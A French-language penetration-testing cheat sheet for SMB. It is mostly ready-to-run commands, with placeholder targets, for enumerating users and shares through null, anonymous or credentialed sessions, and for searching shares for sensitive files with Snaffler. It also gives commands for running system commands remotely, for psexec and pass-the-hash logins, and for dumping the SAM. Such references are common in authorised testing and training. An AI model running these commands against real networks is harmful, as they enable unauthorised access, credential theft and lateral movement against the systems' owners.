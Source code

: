 # SMB

### Enumération des utilisateurs locaux

```
msf6 auxiliary(scanner/smb/smb_lookupsid)
```

### Enumération des partages réseau

* Lister les partages réseau d'une machine avec une session nulle (ni utilisateur, ni de mot de passe) :

```
smbmap -H <IP>
smbmap -u '' -p '' -H <IP>
smbmap -d <DOMAIN.LOCAL> -u '' -p '' -H <IP>

cme smb <IP>/<MASK> -u '' -p '' --shares
```

* Lister les partages réseau d'une machine de manière anonyme (utilisateur anonyme avec un mot de passe vide) :

```
smbmap -u 'anonyme' -p '' -H <IP>
smbmap -d <DOMAIN.LOCAL> -u 'anonyme' -p '' -H <IP>

cme smb <IP>/<MASK> -u 'anonyme' -p '' --shares
```

* Lister les partages réseau d'une machine avec des identifiants :

```
# Avec un mot de passe
smbmap -u "username" -p "password" -H <IP>
cme smb <IP>/<MASK> -u <USER> -p <PASS> --shares

# Avec un hash
smbmap -u "username" -p "<NT>:<LM>" -H <IP>
```

* Lister les partages réseau de machines présentent au sein d'un domaine :

```
smbclient -L //<IP> -U "<DOMAIN.LOCAL>/<USERS%<PASS>"
```

### Lecture d'un partage

```
smbmap -R <REPERTOIRE> -H <IP> -A <file> -q
smbclient \\\\<IP>\\<SHARE> -U "<DOMAIN.LOCAL>/<USER>%<PASS>"
```

`ls` : lister le contenu du répertoire.

`cd` : naviguer dans le répertoire.

`get` : télécharger un fichier localement.

**Note :** _il est également possible d'accéder aux partages via l'explorateur de fichier avec le protocole `smb://`._

L'outil `snaffler` peut être utilisé pour automatiser la lecture des partages réseau. De plus, il remonte des informations potentiellement sensibles :&#x20;

```
Snaffler.exe -s -o Snaffler-result.txt
```

### Exécuter des commandes système

Il est possible d'utiliser l'option `-x` de l'outil `smbmap` pour exécuter des commandes système.

### Connexion distante

* Avec des identifiants :

```
psexec.py <DOMAIN.LOCAL>/<USER>:<PASS>@<IP>
cme smb <IP> -u '<USER>' -p '<PASSWORD>' --local-auth
```

* Avec un _hash_ (Pass The Hash):

```
cme smb -u <USER> -H <HASH> --sam <IP>/<MASK>
```

**Note :** _l'utilisateur doit disposer des droits "Administrateur local"._

### Signatures SMB

```
cme smb <IP>
```
